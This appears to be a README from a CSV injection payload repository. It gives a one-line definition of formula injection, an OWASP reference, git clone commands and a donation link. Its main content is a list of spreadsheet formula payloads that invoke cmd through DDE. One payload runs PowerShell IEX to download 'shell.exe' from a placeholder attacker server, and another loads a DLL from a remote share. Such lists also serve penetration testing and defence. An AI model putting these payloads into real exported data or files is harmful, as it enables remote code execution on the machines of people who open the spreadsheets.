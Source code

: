 ## CSV Injection Payloads

CSV Injection, also known as Formula Injection, occurs when websites embed untrusted input inside CSV files.

#### Payloads :

```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

#### References :

###### CSV Injection :

* 👉 https://owasp.org/www-community/attacks/CSV_Injection

##### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/payloadbox/csv-injection-payloads.git
```

##### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:payloadbox/csv-injection-payloads.git
```

#### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
